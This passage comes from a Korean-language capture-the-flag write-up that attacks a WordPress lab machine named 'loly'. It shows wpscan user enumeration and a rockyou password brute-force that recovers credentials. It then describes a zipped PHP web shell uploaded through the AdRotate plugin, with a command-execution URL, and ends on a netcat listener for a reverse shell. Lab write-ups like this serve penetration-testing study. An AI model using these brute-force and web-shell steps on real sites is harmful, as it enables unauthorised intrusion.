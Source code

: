 result
```shell
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <======================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] A WordPress Commenter
 | Found By: Rss Generator (Passive Detection)

```
* wpscan을 통한 user enumeration을 한 결과 `loly`라는 유저가 발견되었습니다.

command
```shell
wpscan --url http://loly.lc/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames loly --detection-mode aggressive
```

result
```shell
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando
Trying loly / corazon Time: 00:00:07 <                                      > (175 / 14344567)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando

```
- loly 유저에 대해 패스워드 크래킹 공격을 하여 `fernando`라는 비밀번호를 발견하였습니다.

### File upload vulnerability
![loly-2](images/loly/loly-2.png)
- admin 대시보드에서 AdRotate라고 하는 광고 배너 표시 플러그인이 설치되어 있는 것을 확인할 수 있었습니다.
- 배너 파일을 업로드할 수 있는데, `.zip`파일을 업로드하면 자동으로 압축이 해제되면서 업로드된다고 설명되어 있습니다.
- RCE를 하는 php파일을 압축하여 업로드하면 파일 확장자 제한을 우회할 수 있습니다.


```
http://loly.lc/wordpress/wp-content/banners/rce.php?cmd=CMD
```
- 위 url 요청을 통해 arbitrary command를 실행할 수 있습니다.

### Reverse Shell
```shell
nc -nvlp 4444
```

